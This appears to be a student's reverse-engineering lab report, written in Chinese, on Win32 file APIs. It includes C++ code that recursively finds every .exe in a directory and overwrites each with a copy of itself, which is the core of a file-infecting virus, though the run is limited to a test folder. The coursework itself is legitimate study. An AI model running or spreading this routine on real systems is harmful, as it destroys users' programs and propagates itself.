

# 逆向工程实验三
## 作业二
### 实验目的
- 阅读 [微软官方文档](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
- 学习 CreateFile、WriteFile、ReadFile、CloseHandle、FindFirstFile，FindNextFile等几个API函数。

### 实验要求
**编程实现以下功能：**
1. 遍历磁盘，找出磁盘中的全部exe文件；
   - 由于本实验有危险，故遍历文件时只遍历指定目录`C:\Users\12149\Source\Repos\Panda\Debug\target`，避免误伤系统文件和其他有用的文件。
  
2. 替换所有exe文件为自身。

### 实验步骤
[完整脚本](replace.cpp)

#### 运行前
- *C:\Users\12149\Source\Repos\Panda\Debug\target*
  - 该目录下有`7z1900.exe`,`allplan_start.exe`,`BCClipboard.exe`等共计三个exe文件及名为`1`的文件夹。

- *C:\Users\12149\Source\Repos\Panda\Debug\target\1*
  - 该目录下有`BCompare.exe`等共计一个exe文件及名为`2`的文件夹。

- *C:\Users\12149\Source\Repos\Panda\Debug\target\1\2*
  - 该目录下有`cli.exe`等共计一个exe文件


#### 关键代码
- 遍历磁盘，找出磁盘中的全部exe文件
```c
class ProcessFile
{
private:
    vector<string>  result;
public:
    vector<string>  getResult()
    {
        auto   t = result;
        result.clear();
        return t;
    }

    void findall(char* path)
    {
        WIN32_FIND_DATA findData;//保存搜索得到的文件信息
        char buffer[MAX_PATH] = { 0, };
        sprintf(buffer, "%s\\*.*", path);
        HANDLE aim = FindFirstFile(buffer, &findData);//获取指定目录的第一个文件
        char* kind = "exe"; //规定搜索的文件类型为exe
        string target;

        if (aim != INVALID_HANDLE_VALUE) {
            //搜索下一个文件
            while (FindNextFile(aim, &findData))
            {
                if (strcmp(findData.cFileName, ".") == 0 || strcmp(findData.cFileName, "..") == 0)
                {
                    continue;
                }

                if (findData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
                {
                    ZeroMemory(buffer, MAX_PATH);
                    sprintf(buffer, "%s\\%s", path, findData.cFileName);
                    findall(buffer);
                }

                else
                {
                    int l = strlen(buffer);
                    buffer[l - 1] = '\0';
                    //printf("%s%s\n", buffer, findData.cFileName);
                    buffer[l - 1] = '*';
                    buffer[l] = '\0';
                    //得到文件的绝对路径
                    target.assign(path);
                    target += '\\';
                    target.append(findData.cFileName);
                    int len = strlen(kind);
                    //判断是否为exe文件，若是，则将绝对路径返回给result
                    if (target.substr(target.size() - len) == kind)
                    {
                        result.push_back(target);
                    }

                }
            }
        }
        //释放FindFirst分配的内存
        FindClose(aim);

        if (aim == INVALID_HANDLE_VALUE)
        {
          cout<< "ERROR!" << endl;
          system("pause");
          exit(-1);
        }
    }
};
```
- 替换所有exe文件为自身
```c
char self[MAX_PATH] = { 0 };
GetModuleFileName(NULL, self, MAX_PATH);//获取可执行文件self的绝对路径

auto result = p.getResult();

for (int i = 0; i < result.size(); i++)
  {
    //将self复制到每一个搜索到的exe文件并覆盖
    CopyFile(self, result[i].c_str(), FALSE);
  }
```

#### 运行后
**所有exe文件都被替换为自身**
- *C:\Users\12149\Source\Repos\Panda\Debug\target*

- *C:\Users\12149\Source\Repos\Panda\Debug\target\1*

- *C:\Users\12149\Source\Repos\Panda\Debug\target\1\2*


### 参考资料
- [FindNextFileA function](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findnextfilea)
- [FindFirstFileA function](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstfilea)
- [CopyFile function](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfile)
- [GetModuleFileNameA function](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea)
- [使用FindFirstFile和FindNextFile函数实现文件搜索遍历](https://www.write-bug.com/article/1864.html)